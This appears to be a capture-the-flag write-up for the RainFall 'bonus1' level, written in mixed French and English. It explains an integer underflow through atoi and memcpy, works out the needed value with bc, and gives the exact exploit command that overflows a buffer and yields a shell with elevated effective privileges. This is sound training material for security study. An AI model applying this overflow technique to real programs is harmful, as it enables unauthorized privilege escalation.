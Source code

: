 # Bonus 1

The program need 2 params, an integer lesser than 10 and a string that will be copy with memcpy d'une taille du premier parametre fois 4. On peut donc faire un underflow sur le premier parametre qui sera parse avec atoi et ensuite donne a memcpy en 3eme parametre et multiplie par 4. Il y aura donc une conversion implicite d'int vers size_t

with gdb we find in the stack the position of the integer, just after the buffer
Calculate with bc
2147483648 / 4
536870912
536870912 - 10
536870902
536870902 * 2
1073741804

```
bonus1@RainFall:~$ ./bonus1 -1073741804 `python -c 'print("A" * 40 + "\x46\x4c\x4f\x57")'`
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
```
